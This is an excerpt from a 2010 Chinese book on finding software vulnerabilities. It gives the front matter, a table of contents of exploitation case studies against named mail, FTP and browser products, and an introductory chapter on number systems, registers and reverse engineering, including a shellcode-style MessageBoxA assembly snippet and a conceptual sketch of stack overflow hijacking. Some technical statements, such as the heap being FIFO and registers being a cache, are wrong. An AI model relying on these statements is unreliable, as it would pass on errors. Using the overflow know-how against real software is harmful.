# 挖 0day——探索未知漏洞的奥秘


解密当今软件安全漏洞的挖掘技术  
引领读者分享 0day 带来的快感体验  
体会原创古墨黑客精神的核心价值

## 网络结构模块图

制作：爱无言

## 第4章 渗透漏洞挖掘的环境

## 进阶篇

## 第7章 邮件服务程序的漏洞挖掘技术

## 第8章 FTP 服务程序的漏洞挖掘技术

## 高级篇

## 第9章 ActiveX 控件漏洞挖掘技术

## 第10章 浏览器中的特殊漏洞

## 第11章 邮件客户端软件的漏洞挖掘

（其余框内文字模糊，无法可靠辨识）

## 前言

还记得自己上大学的时候，非常热爱阅读黑客书籍，可是每次在学习这些知识的时候，我都像做贼一样躲在自习室的角落，生怕被人看到。可就是这样东躲西藏的还是被人发现，于是大家每次见到我就说：“哟！这不是著名的黑客嘛！”那种语气似乎是在开玩笑，可听起来里面却包含有一种嘲讽的意味。为什么会这样？很久以来，“黑客”这个词语在国内仿佛就是邪恶的代名词。无论是报纸，还是新闻，一提到“黑客”那就似乎是老鼠过街——人人喊打。这种错误的引导，让每一个热爱学习计算机安全的朋友们都被人们误解为是邪恶的“黑客”。于是，看黑客书籍的行为也就成了“走向邪恶道路”的代名词。

我相信上面这种经历在现在的很多大学中都还是存在的，之所以出现这种现象，其中一个很重要的原因就是黑客书籍的内容！现在去新华书店，随意翻看书架上的一本黑客书籍，都是在教你如何黑别人的 QQ，如何去攻击别人的网站，甚至在教你怎样去盗取别人的银行账号。这些让人犯罪的内容不是在提高读者的知识水平，而是让读者走进监狱的因由！为此，我想尝试突破一下黑客图书的传统格局，以为了让更多真正想学习网络安全的读者学习到他们所需要的内容，同时也是为了其中一部分立志于安全事业的朋友能够胜任将来的工作。一本好的图书既是良师，又是益友，它只会帮助读者取得成功，而不会误入歧途！

此刻，在你手中的这本图书，是我将自己的学习与实践经历相结合后，精心打造的一本关于软件安全漏洞的技术图书，书中部分内容也来自我曾出版过的一些计算机安全图书。长期以来，我们看到的很多安全图书都在说“某某软件存在某某安全漏洞，其内容是 ×××”。读者看到这样的漏洞总会觉得一头雾水，他们怎么知道某某软件存在安全漏洞，这个漏洞又是如何发现的呢？这种先说结果不说原因的写作模式，造成很多读者不能找到一本能够帮助他们学习参考的计算机安全图书。而软件安全漏洞似乎一直也是一个神秘的话题，没有人揭开过这其中的奥秘。

现在，一切都有了改变。本书以软件安全漏洞的挖掘为起点，向每一位读者展示软件安全漏洞从发现到被利用的全过程，让读者能够系统地学习到软件安全漏洞研究的方方面面，手把手地带领读者自己动手挖掘软件安全漏洞，让读者分享到学习过程中的喜悦。

我相信每一个人都是从“菜鸟”走向“大神”的，软件安全漏洞研究并不是一个封闭的世界，它欢迎越来越多的计算机安全爱好者去学习钻研，去体会每一次发现软件安全漏洞的收获。试想一下，当你发现的某个软件安全漏洞被全世界的人们所知道的时候，那是一种怎样的自豪与骄傲！

来吧！拿起这本书，让我们一起走进软件安全漏洞挖掘这个充满激情与挑战的学习之旅吧！

## 本书的写作思路

采用通俗易懂的语言，将软件安全漏洞的挖掘过程清晰地展现给每一位读者。实践性强，以具体软件安全漏洞案例的形式向读者揭示了软件安全漏洞是怎样被发现，又怎样被利用的全过程。

书中涉及到的很多具体软件漏洞案例都是首度公开，具有很高的学习价值。适合所有热爱软件安全的人们，尤其是从事软件安全测试的朋友。

同时，本书可作为计算机安全培训班以及高等院校的教材和参考书籍。也为软件开发人员提供了不可多得的安全参考资料，有很高的实际利用价值。

## 关于作者

笔者现就职于国家某安全部门，长期从事于计算机安全研究。以笔名“爱无言”在国内多个计算机安全杂志上发表文章。为人豪爽，酷爱旅游，更喜欢结交朋友。

作者博客：http://hi.baidu.com/digexploit。

## 本书的组织方式

本书的组织方式是按照不同种类软件的安全漏洞发掘方法进行编排的。全书总共分为 11 章。

- 第1章总体介绍了学习软件安全漏洞挖掘的一些基本知识，以及本书将要涉及到的一些计算机安全技术，为读者更好地学习本书做了一个铺垫。
- 第2章以一个简单的实际案例，带领读者动手挖掘出属于自己的第一个软件安全漏洞，引发读者的学习乐趣。
- 第3章开始讲述什么是软件安全漏洞，常见的软件漏洞分为哪几种以及这些漏洞出现的原因及其危害。
- 第4章则主要教会读者怎样建立挖掘软件安全漏洞的环境。
- 第5章～第11章开始全面讲解针对不同类型软件的安全漏洞应该怎样进行漏洞的发掘工作，同时，结合实际操作和案例解析的方式来带领读者共同学习。
- 本书最后是参考部分，主要列举了书中需要的一些材料信息及其来源。

## 致谢

特别感谢《非安全》的土豆和全体编辑对本书顺利出版所付出的汗水与辛苦。感谢邪恶八进制安全团队的各位兄弟能与我共同研究探讨安全技术。感谢我 QQ 里的那些关心我、与我一起交流安全技术的朋友们。

本书由于作者水平有限，书中难免出现疏漏和错误，不妥之处恳请广大读者朋友们批评指正。

同时申明，凡利用本书中安全技术从事违法活动的，本书作者以及出版社概不负责。

作者按  
2010年08月31日

## 内容简介

本书是一本全面展示软件安全漏洞挖掘技术的安全图书，全面系统地介绍了软件安全漏洞研究中的核心技术。本书共有 11 章，将软件安全漏洞挖掘技术分为三个层次，逐层学习。每一层又以清晰的思路按照软件类型来向读者讲述软件安全漏洞的挖掘方法。让读者能够真正学习到软件安全漏洞挖掘的精髓，面对一个新的软件能够马上反应出从哪里入手分析出软件安全漏洞。另外，本书将大量的具体案例结合其中，目的就是能够让读者进行实际动手操作，达到学与用相结合的良好效果。

本书主要针对软件安全漏洞的挖掘技术进行了阐述，适合那些想要入门学习软件安全漏洞研究的读者，对于已经从事软件安全漏洞研究的中、高级读者也可以作为教材和参考用书。

## 参考文献

- 1. 王继刚. 揭秘 Web 应用程序攻击技术. 北京：中国水利水电出版社, 2009.
- 2. 王继刚. 暗战亮剑——软件漏洞发掘与安全防范实践. 北京：人民邮电出版社, 2010.

# 目录

## 第1章 基础知识

- 1.1 进位记数制与不同基数的数之间的转换 …… 1
  - 1.1.1 二进制数 …… 1
  - 1.1.2 十六进制数以及其与二进制、十进制数之间的转换 …… 1
- 1.2 几种基本的逻辑运算 …… 2
  - 1.2.1 “与”运算 (AND) …… 2
  - 1.2.2 “或”运算 (OR) …… 2
  - 1.2.3 “非”运算 (NOT) …… 2
  - 1.2.4 “异或”运算 (XOR) …… 2
- 1.3 处理器中的寄存器组 …… 2
- 1.4 逆向工程的概念 …… 3
  - 1.4.1 静态反汇编 …… 4
  - 1.4.2 静态反编译 …… 5
  - 1.4.3 动态调试 …… 6
- 1.5 初步了解汇编 …… 6

## 第2章 挖出第一个属于你的安全漏洞

- 2.1 漏洞挖掘者的出现 …… 8
- 2.2 漏洞环境的介绍 …… 11
- 2.3 初识 FTP Fuzz …… 12
- 2.4 挑战 ExploitMe …… 13
  - 2.4.1 发现漏洞 …… 13
  - 2.4.2 分析漏洞 …… 16
  - 2.4.3 利用漏洞 …… 19
- 2.5 思路最重要 …… 21

## 第3章 软件漏洞的基本知识

- 3.1 软件漏洞的定义 …… 23
- 3.2 0day 的重要性 …… 24
- 3.3 软件漏洞的分类 …… 24
  - 3.3.1 缓冲区溢出漏洞 …… 24
  - 3.3.2 整数溢出漏洞 …… 30
  - 3.3.3 指针覆盖漏洞 …… 31
  - 3.3.4 脚本漏洞 …… 31
  - 3.3.5 Bypass 漏洞 …… 32
  - 3.3.6 提权漏洞 …… 32
- 3.4 安全汇报与应急响应 …… 33

## 第4章 搭建漏洞挖掘的环境

- 4.1 虚拟机的概念 …… 35
- 4.2 虚拟机的重要性 …… 35
- 4.3 VMware 的安装 …… 36

## 第5章 FileFuzz 的亮相

- 5.1 暴力化测试的艺术 …… 40
  - 5.1.1 Fuzz 的由来 …… 40
  - 5.1.2 Fuzz 技术未来的发展方向 …… 41
  - 5.1.3 Fuzz 技术的缺陷 …… 43
- 5.2 FileFuzz 的由来 …… 43
- 5.3 FileFuzz 的使用 …… 45
  - 5.3.1 初始化 FileFuzz 程序 …… 45
  - 5.3.2 生成待测试文档文件 …… 48
  - 5.3.3 进行自动化测试 …… 50
  - 5.3.4 观察分析结果 …… 52
- 5.4 再现 Microsoft Office Word DOC 文件解析漏洞 …… 53

## 第6章 轻量级自动化测试程序 Browser Fuzzer

- 6.1 什么是 Browser Fuzzer …… 58
- 6.2 自己动手开发 Browser Fuzzer …… 60
  - 6.2.1 编写一个雏形的 HTMLFuzz …… 62
  - 6.2.2 IE6 Nday 的挖掘全过程 …… 67
- 6.3 便利的脚本工具 bf2_pl.pl …… 70
  - 6.3.1 bf2_pl.pl 的简介 …… 70
  - 6.3.2 bf2_pl.pl 的使用要求 …… 72
  - 6.3.3 实战 bf2_pl.pl 挖掘 Safari4 Remote Crash 漏洞 …… 72
- 6.4 扩展 bf2_pl 程序 …… 75
- 6.5 手工挖掘 iock_web_browser_v2.5.6 Remote Crash 漏洞 …… 77

## 第7章 邮件服务程序的漏洞挖掘技术

- 7.1 邮件服务程序的发展历程 …… 83
  - 7.1.1 纯粹的邮件服务 …… 83
  - 7.1.2 Web Mail 的出现 …… 84
- 7.2 邮件服务项的核心协议 …… 85
  - 7.2.1 SMTP 协议 …… 85
  - 7.2.2 POP3 协议 …… 86
  - 7.2.3 IMAP 协议 …… 86
- 7.3 传统漏洞的挖掘 …… 86
  - 7.3.1 Python 脚本的利用 …… 87
  - 7.3.2 TurboMail 4.3 POP3 远程拒绝服务漏洞的挖掘 …… 90
  - 7.3.3 MailCarrier 2.51 SMTP HELO 命令溢出漏洞的挖掘 …… 96
- 7.4 Web Mail 中的特殊漏洞 …… 98
  - 7.4.1 经典的跨站漏洞 …… 99
  - 7.4.2 TurboMail 4.3 邮件系统 XSS 0day 漏洞 …… 99
  - 7.4.3 绕过安全过滤机制 …… 103
  - 7.4.4 操作服务器文件系统的安全漏洞 …… 105
  - 7.4.5 火花邮 1.5 版本多文件系统破坏漏洞 …… 107
  - 7.4.6 泄露服务器信息的黑手 …… 114
  - 7.4.7 CMailServer 远程任意文件下载漏洞 …… 114

## 第8章 FTP 服务程序的漏洞挖掘技术

- 8.1 FTP 协议的简介 …… 117
- 8.2 FTP 协议的手工测试 …… 117
- 8.3 Easy FTP Server v1.7.0.2 CWD 命令远程溢出漏洞的挖掘 …… 118
- 8.4 FTP 服务程序下的特殊漏洞 …… 122
- 8.5 CompleteFTP Server 跨目录访问漏洞 …… 122

## 第9章 ActiveX 控件漏洞挖掘技术

- 9.1 ActiveX 控件的概念 …… 125
  - 9.1.1 ActiveX 控件的由来 …… 125
  - 9.1.2 ActiveX 控件的区分 …… 127
- 9.2 手工挖掘漏洞的方法 …… 128
  - 9.2.1 获取 ActiveX 控件接口 …… 128
  - 9.2.2 利用网页模板发掘 ActiveX 控件漏洞 …… 130
  - 9.2.3 再现 QQ 播 ActiveX 控件 0day 漏洞 …… 131
- 9.3 ActiveX 控件漏洞发掘利器——COMRaider …… 134
  - 9.3.1 COMRaider 简介 …… 134
  - 9.3.2 实战 COMRaider …… 134
- 9.4 剑走偏锋的 ActiveX 控件信息泄露漏洞 …… 140
- 9.5 文件越权操作漏洞与新型网页木马 …… 142
  - 9.5.1 文件越权操作的意义 …… 142
  - 9.5.2 危险的 Grid 控件 ReportActiveX 控件 0day …… 142

## 第10章 浏览器中的特殊漏洞

- 10.1 绕过浏览器的黑白名单机制 …… 148
  - 10.1.1 黑白名单机制的作用 …… 148
  - 10.1.2 突破腾讯 Tencent Traveler 浏览器的黑白名单防护 …… 149
- 10.2 危险的跨域漏洞 …… 152
  - 10.2.1 什么是跨域 …… 152
  - 10.2.2 揭秘 360 安全浏览器的跨域脚本执行漏洞 …… 153
  - 10.2.3 腾讯浏览器跨域修改配置文件 0day 漏洞 …… 157
  - 10.2.4 腾讯 Tencent Traveler 浏览器任意代码注入执行漏洞 …… 161
- 10.3 插件引发的安全漏洞 …… 164
- 10.4 来自浏览器的欺骗 …… 166
  - 10.4.1 欺骗漏洞的危害 …… 166
  - 10.4.2 搜狗浏览器的页面欺骗漏洞 …… 167
  - 10.4.3 不能相信自己的眼睛——火狐浏览器 URL 地址欺骗漏洞 …… 169

## 第11章 邮件客户端软件的漏洞挖掘

- 11.1 邮件客户端软件简介 …… 172
- 11.2 邮件客户端软件溢出漏洞的挖掘 …… 172
  - 11.2.1 建立漏洞测试思路 …… 172
  - 11.2.2 Foxmail5 缓冲区溢出漏洞挖掘实例 …… 173
- 11.3 危险的脚本 …… 179
  - 11.3.1 功能丰富背后的代价 …… 179
  - 11.3.2 邮件中的跨域漏洞 …… 179
  - 11.3.3 实战 IncrediMail 邮件脚本跨域执行漏洞 …… 179
  - 11.3.4 巧妙思路挖掘 KooMail 5.62 XSS 0day 漏洞 …… 184
- 11.4 来自邮件的攻击 …… 187
  - 11.4.1 STOP！邮件的祸止 …… 187
  - 11.4.2 实战 KooMail 附件安全机制绕过漏洞 …… 187
  - 11.4.3 实战 Becky! Internet Mail 2.53 附件跨域脚本执行漏洞 …… 192
- 11.5 其它类型漏洞的挖掘 …… 195
  - 11.5.1 不能忽视的 ActiveX 控件 …… 195
  - 11.5.2 令人抓狂的 IncrediMail-imShExtU.dll 控件远程 DOS 漏洞 …… 196

- 附录：利用 Microsoft Visual C++ 6.0 制造 ShellCode …… 199

## 光盘目录

### 本书相关软件

- 第二章
- OllyICE
- ActivePython-2.6.1.1-win32-x86
- findmp
- fpfuzz
- go.py
- GoodFTP
- 相关录像

- 第三章
- Debug 相关文件

- 第四章
- VMware 虚拟软件

- 第五章
- FileFuzz
- WinHex
- netframework

- 第六章
- HTMLFuzzer
- ActivePerl-5.10.0.1004-MSWin32-x86-287188
- bf2.pl
- flock-2.5.6-en-US_win32
- Safari
- safari 漏洞测试网页
- 相关录像

- 第七章
- SparkMail Full v1.5
- WinSock Expert V0.6 beta 1 Cr
- cmail
- mailcarrier25
- NC
- smtp_test.py
- turbomail_win_430
- 相关录像

- 第八章
- easyftpsvr-1.7.0.2
- CompleteFTP
- ftptest.py
- 相关录像

- 第九章
- COMRaider
- GridReport5.0
- QvodSetup
- 1a.grf
- gp.htm
- GridReport0day 挖掘教程

### 安全视野

- ATM-0day 漏洞演示
- Firefox v3.6 Crash(0day) 漏洞演示
- Freebsd 最新本地提权漏洞 (mbufs(1)-sendfile Cache Poisoning-)
- Freebsd 最新漏洞提权演示
- IE 8 隐藏源代码漏洞演示
- Linux 安全漏洞演示与解决方案
- Nginx 文件类型解析错误漏洞演示
- Tomcat Basic Digest 验证泄露信息演示
- Ubuntu PAM MOTD File 漏洞
- Windows 快捷方式漏洞
- Xerver 源码泄漏漏洞演示
- 通过 MSF 利用最新 IE 最新溢出漏洞

## 第1章 基础知识

本章主要作用是向读者介绍一些计算机的基础知识，目的是为了能够帮助读者充分理解本书后面所涉及的漏洞挖掘技术。漏洞挖掘技术是计算机安全技术中一个重要的研究领域，在学习这些技术的时候，必须要打好基础，就像在平地上建楼房，首先得打好地基，才能够在上面搭框架，最后将楼房盖起来。当然，知识构成也许并非一定是按照这样的先后顺序来走的，因为你可能先是“知其然”，然后才去“知其所以然”，亦或许误打误撞才开始了你的一段奇幻的学习之旅。但完备的知识体系结构在你脑海中的最终构成一定会让你在某个时候去寻找来时的路，那就是最初的原点——基础知识。

这一章，我们将漏洞挖掘技术必须要掌握的基础知识筛选出来供读者学习，掌握了这些基础知识，读者就有了一个较好的铺垫，在后面的学习中，也就可以很好地理解书中所涉及的知识。当然，如果你已经有了很好的计算机基础，那么你可以跳过本章的学习。

最后，请大家记住万事开头难，学习漏洞挖掘技术需要我们静下心来，一步一步向着高手的方向前进，不过请放心，在你学习的征途上一直会有我们的陪伴！

### 1.1 进位记数制与不同基数的数之间的转换

#### 1.1.1 二进制数

二进制是计算技术中广泛采用的一种数制。二进制数据是用 0 和 1 两个数码来表示的数。它的基数为 2，进位规则是“逢二进一”，借位规则是“借一当二”，它是由 18 世纪德国数理哲学大师莱布尼兹发现。当前的计算机系统使用的基本上是二进制系统。

二进制数据也是采用位置计数法，其每一位对应的权值（权值就是每一位对应的十进制数值）是以 2 为底的幂（表示 2 自乘若干次，用 2^n 来表示，例如 2^2=2×2，2^3=2×2×2）。例如二进制数据 110.11，其每一位对应的十进制数值的大小顺序为 2^2、2^1、2^0、2^-1、2^-2。

那么，如果想要将一个二进制数据转换为十进制数，就可以采用其每一位的数值乘以其对应十进制数值，然后再将每一位结果相加，最终的数值就是该二进制数对应的十进制数值。举个例子，二进制的 101101 按照 2 的幂格式来写就为：1×2^5+0×2^4+1×2^3+1×2^2+0×2^1+1×2^0，最终结果等于十进制的 45。

#### 1.1.2 十六进制数以及其与二进制、十进制数之间的转换

计算机采用二进制的数据进行运算和数据存储。但是，我们知道二进制的数字对于我们来说，在阅读、书写以及记忆时都十分不方便。十进制数虽然是我们最熟悉的一种进位计数制，但是它与二进制数之间并无直接的对应关系。为了便于人们对二进制数的描述，应该选择一种易于与二进制数相互转换的数制，这就是十六进制数和八进制数，这里主要给大家介绍一下十六进制数。

计算机中存储信息的基本单位为一个二进制位（bit），它可以用来表示 0 和 1 两个数码。此外，由于计算机中常用的字符是采用由 8 位二进制数组成的一个字节（byte）来表示的。

因此，字节也成为计算机中存储信息的单位。计算机的字长一般都选为字节的整数倍，如16位、32位、64位等。一个字节由8位组成，它可以用两个四位组来表示，所以用十六进制数来表示二进制数是比较方便的。

十六进制数的基数是16，共有16个数码，它们是0、1、2、3、4、5、6、7、8、9、A、B、C、D、E、F。其中A表示十进制的10，B表示十进制的11，依次类推。它们与二进制数和十进制数的关系见表1.1。

| 二进制数 | 十进制数 | 十六进制数 |
|---|---:|---|
| 0000 | 0 | 0 |
| 0001 | 1 | 1 |
| 0010 | 2 | 2 |
| 0011 | 3 | 3 |
| 0100 | 4 | 4 |
| 0101 | 5 | 5 |
| 0110 | 6 | 6 |
| 0111 | 7 | 7 |
| 1000 | 8 | 8 |
| 1001 | 9 | 9 |
| 1010 | 10 | A |
| 1011 | 11 | B |
| 1100 | 12 | C |
| 1101 | 13 | D |
| 1110 | 14 | E |
| 1111 | 15 | F |

二进制数转换成十六进制数非常简单，只要把二进制数从低位到高位每4位组成一组，直接用十六进制数来表示就可以了。举个例子，二进制数0011010110111111要转换成十六进制数，则每四位为一组，然后转换成十六进制数：

```
二进制      0011  0101  1011  1111
十六进制      3     5     B     F

即 0011010110111111（二进制）= 35BF（十六进制）
```

十六进制数要转换成十进制数，方法就是十六进制数的各位与其对应的权值的乘积之和，即为对应此十六进制数的十进制数。

十六进制数的各位权值为16^k。举个例子，十六进制数BF转换成十进制数的方法是：

```
1) BF = B*16^1 + F*16^0
2) B*16^1 + F*16^0 = 11*16^1 + 15*16^0
3) 11*16^1 + 15*16^0 = 176 + 15
4) BF（16进制）= 191（十进制）
```

### 1.2 几种基本的逻辑运算

#### 1.2.1 “与”运算（AND）

“与”运算又称逻辑乘，可用符号“·”或者“∧”来表示。由于计算机处理的数据只有0和1，所以与运算最后的取值结果有四种，见表1.2。

| 变量A | 变量B | A∧B |
|---:|---:|---:|
| 0 | 0 | 0 |
| 0 | 1 | 0 |
| 1 | 0 | 0 |
| 1 | 1 | 1 |

#### 1.2.2 “或”运算（OR）

“或”运算又称逻辑加，可用符号“+”或者“∨”来表示。由于计算机处理的数据只有0和1，所以或运算最后的取值结果有四种，见表1.3。1+1=1，是根据二进制“逢二进一”、“借一当二”的规则。

| 变量A | 变量B | A∨B |
|---:|---:|---:|
| 0 | 0 | 0 |
| 0 | 1 | 1 |
| 1 | 0 | 1 |
| 1 | 1 | 1 |

#### 1.2.3 “非”运算（NOT）

非运算只涉及单独的一个变量，其运算结果有两种，见表1.4。

| 变量A | 非运算结果 |
|---:|---:|
| 0 | 1 |
| 1 | 0 |

#### 1.2.4 “异或”运算（XOR）

“异或”运算最后的取值结果有四种，见表1.5。异或运算的原则是：相异为真，相同为假。

| 变量A | 变量B | A xor B |
|---:|---:|---:|
| 0 | 0 | 0 |
| 0 | 1 | 1 |
| 1 | 0 | 1 |
| 1 | 1 | 0 |

### 1.3 处理器中的寄存器组

早期的CPU是由运算器和控制器两个部分组成的。从80386开始，为了加快CPU处理数据的能力，设计者开始在CPU中引入了高速缓冲存储器。我们将这种高速缓冲存储器称之为“寄存器”。

寄存器可以分为**程序可见寄存器**和**程序不可见寄存器**两大类。所谓程序可见寄存器是指在程序设计中可以由指令指定的寄存器；而程序不可见寄存器则是指一般应用程序设计中不用而由计算机系统所用的寄存器。

程序可见的寄存器可以分为通用寄存器、专用寄存器、段寄存器。不同的CPU寄存器个数是不同的，结构也不相同。目前，我们常见的英特尔80386以上架构的CPU的每个寄存器都是4个字节的，也就是32位。

英特尔80386以上架构的CPU中通用寄存器总共有8个，这8个寄存器分别为：eax、ebx、ecx、edx、esp、ebp、esi、edi。

英特尔80386以上架构的CPU中专用寄存器总共有3个，这3个寄存器分别为：eip、esp、eflags。

**eip寄存器**是一个非常重要的寄存器，它的全名为“指令指针寄存器”。在程序运行的过程中，eip寄存器始终指向下一条指令的首地址。当CPU处理完当前指令后，就会自动取得eip寄存器中的数据作为下一条指令的内存地址，从而继续运行当前程序。

**esp寄存器**为堆栈指针寄存器。它是我们今后在挖掘缓冲区溢出漏洞时打交道最多的寄存器。

首先，我们了解一下什么叫做“堆栈”。准确地讲，“堆”和“栈”是两个概念。“堆”（heap）是指操作系统采用先进先出的方式存储数据的一种结构。而“栈”（stack）则是操作系统采用先进后出的方式存储数据的一种结构。

由于esp寄存器中存放着系统栈顶的偏移地址，所以当过多的数据填充到有限的栈空间造成溢出后，esp寄存器指向的内容就是溢出部分的数据。如果这部分溢出数据是一些恶意代码指令，那么利用某些特殊指令，我们就可以控制CPU跳转到esp寄存器指向的内存地址上，从而在程序发生溢出后，引导CPU运行恶意代码指令，这就是所谓的缓冲区溢出漏洞攻击。

**Eflags寄存器**为标志寄存器，又称为程序状态寄存器（program status word，简称PSW）。它存放的内容主要是一些程序状态标志内容和系统状态标志内容。这些标志内容将控制CPU在执行一些类似跳转指令的时候，用来区别CPU是应该跳转还是不应该跳转等等。

英特尔80386以上架构的CPU中段寄存器总共有6个，它们分别为：代码段（code segment，CS）、数据段（data segment，DS）、堆栈段（stack segment，SS）、附加段（extra segment，ES）以及两个段寄存器FS和GS。

段寄存器的作用就是将程序的数据内容分类存放，属于指令部分的就存放在代码段，属于数据部分的就存放在数据段之内。

### 1.4 逆向工程的概念

逆向工程（reverse engineering）是计算机技术研究中非常重要的一个领域。对于计算机软件安全研究来说，由于一个软件发布给使用者后，软件的文件都是以可执行文件存在的，使用者不可能获得软件的源代码。软件安全研究人员为了能够实现对软件的深层次分析，就必须要利用逆向工程技术来“再现”软件的源代码。

对于软件的逆向工程技术来说，又分为以下几个方面：

#### 1.4.1 静态反汇编

我们知道，任何一个可执行文件对于计算机系统来说都是0和1的组合。软件开发人员在开发一个软件的时候，采用的是通过计算机语言来编程，最终实现软件的可执行文件。计算机语言分为高级语言和汇编语言两种。其中，高级语言是一种可读性比较好的计算机语言，例如VC语言。在VC语言中，如果你想实现弹出一个带有“hello”字眼的对话框，你只需要这么写 `MessageBoxA("hello")`。这里，“MessageBoxA”是一个C语言中的负责打印的函数，它的名字完全类似于英文单词中的消息单词“MessageBox”。这样的代码让人看起来就非常容易理解。

> **小知识：**MessageBoxA这个函数原本是需要同时接受四个参数的，因为它的原始表示是这样的：

```
MessageBoxA(
    HWND hWnd,
    LPCSTR lpText,
    LPCSTR lpCaption,
    UINT uType
);
```

> 这里，只是为了演示才提交了一个“hello”参数。

汇编语言是一种比较低层的计算机语言，它的代码比起高级语言来讲，看起来要复杂得多。举个例子，刚才我们用C语言编写的打印代码，用汇编语言实现就比较复杂，它的汇编实现代码大致如下：

```
sub esp, 20         ; 将esp寄存器减去20，意思是在内存中开辟20个字节的栈空间
push 'o'
push 'lleh'         ; 这两句代码就是将“hello”字符串放入到前面刚开辟的栈空间中
mov ecx, esp        ; 将此刻的esp寄存器的数值传递给ecx寄存器
mov eax, 0x77B50F7A ; 将系统函数MessageBoxA的内存地址传递给eax寄存器
xor ebx, ebx        ; 将ebx寄存器进行异或操作即清零
push ebx
push ebx
push ecx
push ebx            ; 以上四行代码是将MessageBoxA函数需要的四个参数压入到栈中
call eax            ; 调用MessageBoxA函数
```

大家没有想到吧？一个原本高级语言中一句代码就能够实现的功能，在汇编语言中需要这么多行代码才能够实现。

不过，虽然汇编语言看起来十分复杂与繁琐，但是用它编写出来的程序执行起来的效率却是最高的。这是因为汇编语言可以直接操作CPU中的寄存器，而高级语言代码看起来很简单，但它最终需要转换成汇编代码才能执行，而这种转换出来的汇编代码可能就比较冗长，不够精简，所以执行效率必然没有汇编代码实现的程序快。

但是，无论任何语言开发出来的程序，其最终内容都是0和1的数字组合。这种0和1的组合是有一定规律的，这种规律是人为规定的，所以借助这种规律我们可以将原本没有源代码的任何程序转换成我们可以读懂的汇编代码。这个过程就被称之为“反汇编”。通常意义上的反汇编是指“静态反汇编”，意思是指不需要让程序运行起来，对程序文件直接进行分析，最终得到汇编代码的过程。举个简单的例子，二进制的组合“1001 0000”，即十六进制的90，它所代表的汇编指令就是“nop”，即一个空指令操作。利用这样的规律，我们就可以将二进制0和1组合的程序文件直接转换为我们可读的汇编代码。

静态反汇编的工具软件很多，最为常用的有W32Dasm、IDA、C32asm。我们这里以W32Dasm为例，将Windows系统自带的计算器程序calc.exe进行一个静态反汇编，效果如图1.1所示。

如果我们使用普通的记事本程序打开计算器程序calc.exe文件，我们只能看到一堆类似乱码的东西，如图1.2所示。

对比图1.1和图1.2我们看到，此刻，W32Dasm已经将计算器程序calc.exe文件进行了反汇编。这样一来，我们就可以通过阅读汇编代码很好地了解到计算器程序的具体实现原理了。



图1.1

#### 1.4.2 静态反编译

“反编译”这个概念是最容易让人混淆的，很多人都以为“反编译”和“反汇编”是一回事。

其实从大的方面讲，“反编译”包含了“反汇编”。不过，“反编译”还包括了其它一些内容。例如，对于一些高级语言来说，它开发出来的程序在从代码转换到二进制文件后，可以通过某些特殊的规律，将二进制文件直接再转换回原始语言代码，而不是汇编代码。

我们熟知的Java语言，它就是一种高级编程语言，它开发编译之后的二进制文件为“.class”文件，这种类型的文件是可以被直接反编译为原始的Java代码的。我们来看一个实际操作案例，“MailMainWap.class”是国内知名邮件服务程序Turbomail中自带的一个由Java语言开发的二进制文件。我们如果使用Windows系统自带的记事本程序打开该文件，其效果如图1.3所示。

从图1.3中我们可以看出，class文件的内容是乱码格式，完全看不懂。现在，我们使用Java反编译程序“Java源代码反编译专家”来打开class文件看一看效果，如图1.4所示。

这一次，我们发现原本是乱码的“MailMainWap.class”文件内容，现在竟然变成了完全可读的Java代码！

通过这个例子，我们可以了解到，利用反编译技术，我们可以将原本只有计算机才能理解的二进制文件转换成可读代码。有了可读代码，我们最终可以对软件的工作原理了如指掌。

